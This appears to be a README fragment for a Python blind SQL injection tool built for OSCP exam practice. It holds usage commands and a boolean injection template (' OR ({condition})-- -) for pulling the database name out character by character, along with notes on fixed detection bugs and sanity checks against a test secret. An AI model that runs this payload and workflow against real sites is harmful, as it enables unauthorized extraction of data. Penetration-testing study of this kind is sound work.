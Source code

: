 ```bash
chmod +x sqli.py
```


### Usage

**Wizard mode (no flags):**

```bash
python3 sqli.py
```

**Direct mode (with flags):**

```bash
python3 sqli.py --url "http://target/page.php" --param id --base 1 \
  --template "' OR ({condition})-- -" --true-string "Welcome" \
  --query "database()" --maxlen 32
```


***

## What Was Fixed in This Revision

### Bug \#1: Length-Delta Indicator (FIXED)

**Problem**: The old version compared each response length to the *previous* request, causing incorrect True/False decisions during binary search.

**Symptom**: Nonsense characters or empty output when using `--min-delta-len`.

**Fix**: Now establishes a stable baseline length once at initialization and always compares against that baseline.

### Bug \#2: FALSE_STRING Logic (FIXED)

**Problem**: `--false-string` was parsed but never properly enforced.

**Fix**: Now properly forces False when the false string is detected.

### Recommendation

**Prefer `--true-string` over `--min-delta-len`** for maximum reliability during OSCP. The length indicator now works correctly but text strings are more stable across different responses.

***

## Sanity Checks

Verify the script works correctly:

```bash
# Boolean with string indicator
python3 sqli.py --test-secret shopdb --true-string X --action length --query "database()" --maxlen 16
# Expected: 6

# Character extraction
python3 sqli.py --test-secret shopdb --action char --query "database()" --pos 2
# Expected: h

# Full extraction
python3 sqli.py --test-secret shopdb --action extract --query "database()" --maxlen 16
# Expected: shopdb
```

